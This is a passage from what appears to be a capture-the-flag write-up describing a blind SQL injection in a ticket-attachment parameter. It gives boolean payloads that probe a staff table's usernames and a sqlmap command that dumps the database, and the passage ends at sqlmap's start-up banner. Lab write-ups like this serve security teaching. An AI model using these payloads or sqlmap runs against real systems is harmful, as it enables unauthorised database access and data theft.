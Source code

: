 That's a blind injection. I can pass some test in, and get true
(downloaded attachment) or false (Whoops!) back.

For example,
`and (select (username) from staff limit 0,1) = 'admin'-- -` returns
attachment, while
`and (select (username) from staff limit 0,1) = '0xdf'-- -`returns
Whoops!.

### sqlmap

I could script this up, but this seems like a good chance to let
`sqlmap` dump the db. I'll download the attachment through burp, and
save the request to a file.

![](/img/1559764016188.png)

Then I can run:



    root@kali# sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[]
            ___
           __H__
     ___ ___[']_____ ___ ___  {1.3.4#stable}
    |_ -| . [)]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 17:33:15 /2019-06-04/
